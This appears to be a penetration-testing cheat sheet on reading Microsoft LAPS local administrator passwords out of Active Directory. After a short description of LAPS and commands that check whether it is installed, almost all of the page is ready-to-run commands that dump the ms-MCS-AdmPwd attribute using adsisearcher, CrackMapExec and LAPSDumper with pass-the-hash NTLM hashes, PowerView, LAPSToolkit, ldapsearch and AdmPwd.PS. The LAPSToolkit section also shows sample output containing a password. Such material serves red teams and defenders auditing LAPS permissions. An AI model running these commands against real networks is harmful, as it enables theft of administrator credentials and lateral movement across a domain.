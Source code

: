 # LAPS Passwords

{% hint style="info" %}
Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.
{% endhint %}

## <mark style="color:red;">**Determine if LAPS is installed**</mark>

```
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

## <mark style="color:red;">**Extract LAPS password**</mark>

{% hint style="info" %}
The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users
{% endhint %}

### <mark style="color:orange;">adsisearcher (native binary on Windows 8+)</mark>

```
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
```

### <mark style="color:orange;">CrackMapExec</mark>

```
crackmapexec smb 10.10.10.10 -u user -H 8846f7eaee8fb117ad06bdd830b7586c -M laps
```

### <mark style="color:orange;">Powerview</mark>

```
PS > Import-Module .\PowerView.ps1
PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
```

### <mark style="color:orange;">LAPSToolkit</mark>

#### [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

```
# find which users can read LAPS passwords
Get-NetGroupMember -GroupName "LAPS Password Readers"

$ Find-LAPSDelegatedGroups
$ Find-AdmPwdExtendedRights


Import-Module .\LAPSToolkit.ps1


$ Get-LAPSComputers
ComputerName                Password                                 Expiration         
------------                --------                                 ----------         
exmaple.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18
```

### <mark style="color:orange;">ldapsearch</mark>

```
ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
```

### <mark style="color:orange;">LAPSDumper</mark>

[**https://github.com/n00py/LAPSDumper**](https://github.com/n00py/LAPSDumper)

```
python laps.py -u user -p password -d domain.local
python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

### <mark style="color:orange;">Powershell AdmPwd.PS</mark>

```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
